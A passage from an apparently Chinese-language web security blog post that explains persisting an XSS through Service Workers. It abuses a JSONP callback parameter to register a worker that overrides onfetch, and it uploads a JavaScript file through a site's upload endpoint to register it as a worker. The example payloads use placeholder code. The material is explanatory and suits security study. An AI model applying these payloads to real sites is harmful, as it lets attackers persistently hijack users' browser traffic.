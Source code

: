 尽管SW的利用条件非常苛刻，但却正好和jsonp的接口相符，可以说是非常契合了。

一个普通的jsonp接口大概是这样
```
https://example.com/jsonp.php?callback=test

HTTP/1.1
200 OK
Content-Type:
text/javascript; charset=UTF-8
[...]

test({[...]})
```

test点我们可控，那么我们可以通过配合SW来利用

```
xss点

<script>
navigator.serviceWorker.register("/jsonp.php?callback=onfetch=e=>console.log('test')//");
</script>
```

然后jsonp接口会返回

```
https://example.com/jsonp.php?callback=onfetch=e=>console.log('test')//

HTTP/1.1
200 OK
Content-Type:
text/javascript; charset=UTF-8
[...]

onfetch=e=>console.log('test')//({});
```

这样一来，SW成功被注册，onfetch接口还被我们重写为利用代码，持久化利用

# 2、文件上传接口 #

当站内存在文件上传接口的时候，或许我们可以上传一个js文件。

就好象是这样
```
<script>
var
formData = new FormData();
formData.append("csrf_token",
"secret");
var
sw = "/* [SW_CODE] */";
var
blob = new Blob([sw], { type: "text/javascript"});
formData.append("file",
blob, "sw.js");
fetch("/upload",
{method: "POST", body: formData}).then(/* Register SW */);
</script>
```


  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9ikc1hbn085eecbpip9k4qhs/image.png